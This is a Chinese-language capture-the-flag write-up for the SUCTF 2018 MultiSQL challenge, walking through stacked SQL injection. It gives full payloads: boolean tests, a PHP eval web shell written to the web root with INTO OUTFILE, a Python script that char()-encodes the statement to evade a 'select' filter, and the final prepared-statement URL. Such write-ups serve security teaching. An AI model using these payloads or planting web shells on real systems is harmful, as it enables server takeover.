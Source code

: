 # [SUCTF 2018]MultiSQL MYSQL 预处理写

首先这道题需要预处理写马 之前在ctfshow中学习过预处理

我们来看看

 [CTFSHOW -SQL 注入-CSDN博客](https://blog.csdn.net/m0_64180167/article/details/134380357) 

首先我们开始判断是否存在注入

```cobol
2^(if(1=0,1,0))
 
2^(if(ascii(mid(user(),1,1))>0,0,1))
 
判断出存在sql注入
```

然后我们开始fuzz  发现 select ，union 都没了

但是我们如果 ; 发现可以闭合 所以这里是存在堆叠注入的

但是是没有回显的

```sql
1;show databases;
```

所以我们看看能不能写木马

```sql
select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php

这个是我们的木马
```

然后我们进行预处理

```python
但是这里select 被过滤了
 
所以我们使用char 拼接绕过
 
str = "select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str = len(str)
for i in range(0,len_str):
    if i==0:
        print('char(%s' %ord(str[i]),end='')
    else:
        print(',%s' %ord(str[i]),end='')
print(')')
```

```scss
char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59)
```

然后直接执行



<img src="https://i-blog.csdnimg.cn/blog_migrate/94b60eb51a5553df588b7c279350531a.png" alt="" style="max-height:350px; box-sizing:content-box;" />


```sql
?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare abcd from @sql;execute abcd;
```

这里就实现了绕过 并且执行了命令

```cobol
/favicon/shell.php
```

即可实现